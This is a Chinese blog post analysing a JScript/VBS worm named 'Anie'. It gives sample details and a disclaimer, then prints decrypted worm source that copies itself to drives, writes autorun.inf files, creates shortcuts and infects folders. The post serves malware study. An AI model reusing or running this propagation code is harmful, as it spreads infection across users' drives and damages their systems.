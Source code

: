 title: VBS蠕虫 Anie 代码分析
date: 2015-03-14 16:49:47
categories: 病毒分析
tags: Worm
description:
---
Anie 是一个VBS蠕虫，命名源于其会创建一系列名为 Annie 的文件，鉴于计算机病毒命名时不应直接使用病毒样本中出现的字符串，所以将其命名为 Anie。
该病毒最早出现的时间为2013年，国家为印尼。

##基本信息
>病毒名称：Worm.JS.AutoRun
>病毒类型：蠕虫
>样本长度：9,201 字节
>样本md5：4d1a9f7559de521e1458021a1a7df7cf
>文件类型：vbs
>原文件名：Annie.sys
>出现时间：2013-02-15
>感染范围：Indonesia
>感染目标：Intel 386 orlater processors and compatible processors


##脚本解密
直接用编辑器打开病毒样本，会发现样本内容为乱码，该样本使用了jscript.encode方式进行了加密，在[这里](http://www.sanxiang.org/jscript-decode.html)可以对其进行解密。
![](http://7xicmh.com1.z0.glb.clouddn.com/blog/anie-vbs-worm-code-analysis/encoded.jpg)

##代码分析
###免责声明
本节代码是一个完整的VBS蠕虫病毒，仅以学习和交流目的展示，其执行后会感染磁盘驱动器、CD刻录机、网络驱动器等，会对系统造成极大破坏。
请勿复制、传播、执行以及使用本节中代码进行攻击等，否则自行承担一切因不当行为造成的后果及责任。

###病毒代码

{% codeblock %}
var fso = new ActiveXObject('Scripting.FileSystemObject');
var Shell = new ActiveXObject('WScript.Shell');
var ScriptPath = WScript.ScriptFullName;
var Script = ReadText(ScriptPath);
var SystemPath = fso.GetSpecialFolder(1);
var SysPath = SystemPath + '\\drivers\\annie.sys';

function InfectDrives() {
    while (ScriptPath == SysPath) {
        // 枚举驱动器集合
        var e = new Enumerator(fso.Drives);
        for (e.moveFirst(); !e.atEnd(); e.moveNext()) {
            var drv = e.item();
            // DriveType:UnknownType＝0；Removable＝1；Fixed=2；Remote=3；CDRom=4.
            // 如果是硬盘或者移动存储介质并且驱动器号不为'A:'并且驱动器可以访问
            if (((drv.DriveType == 1 || drv.DriveType == 2) && drv.Path != 'A:') && drv.IsReady) {
                // 拷贝脚本文件到驱动器根目录，命名为annie.ani。
                CopyScriptFile(drv.Path + '\\annie.ani');
                // 创建AutoRun文件，将annie.ani设置为自动运行。
                CreateAutoRunFile(drv.Path + '\\autorun.inf');
                CreateShortcut(drv.Path + '\\');
                InfectFolder(drv.Path + '\\');
                InfectSubFolder(drv.Path + '\\');
            }
        }
    }
}
